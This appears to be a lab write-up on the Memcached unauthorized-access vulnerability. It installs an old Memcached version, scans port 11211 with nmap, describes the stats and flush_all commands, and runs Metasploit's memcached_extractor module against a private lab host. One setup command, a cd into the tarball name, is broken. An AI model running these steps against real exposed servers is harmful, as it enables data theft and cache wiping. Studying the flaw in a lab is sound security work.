




# Unauthorized Access Vulnerability in Memcached

## Vulnerability Description

Memcached is a high-speed cache system used to store a large amount of dynamic data on the network. The unauthorized access vulnerability refers to the fact that without access control to Memcached, anyone can access and read the data stored in Memcached without authorization. This may lead to sensitive information being leaked, including user passwords, credit card information, etc.

## Environment Setup

```
wget http://memcached.org/files/old/memcached-1.4.14.tar.gz
tar -zxvf memcached-1.4.14.tar.gz
cd memcached-1.4.14.tar.gz
./configure && make && make test && sudo make install
```

Start Memcached



## Vulnerability Exploitation

Scan port

```
[root@localhost bin]# nmap -p 11211 -sV 192.168.32.183

Starting Nmap 6.40 ( http://nmap.org ) at 2022-07-26 06:35 EDT
Nmap scan report for 192.168.32.183
Host is up (0.000052s latency).
PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.4.14

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds

```

Cache management commands:

The `stats` command does just what its name implies: it dumps the current stats for the connected memcached instance. In the following example, executing the stats command displays information about the current memcached instance.



The above information displays the current traffic statistics. It serves the connection count, data stored in the cache, cache hit rate, and detailed information on memory usage and the distribution of slab allocation information used to store individual items.

The `flush_all` command. This simplest of commands is used solely to clear all name/value pairs from cache. If you need to reset the cache to a clean state.



Statistics slabs information



Find key using msf

```
msf6 > search memcached_extractor

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/gather/memcached_extractor                   normal  No     Memcached Extractor


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/gather/memcached_extractor

msf6 > use auxiliary/gather/memcached_extractor
msf6 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(gather/memcached_extractor) > set rhosts 192.168.32.183
rhosts => 192.168.32.183
msf6 auxiliary(gather/memcached_extractor) > run

[+] 192.168.32.183:11211  - Found 0 keys
[*] 192.168.32.183:11211  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

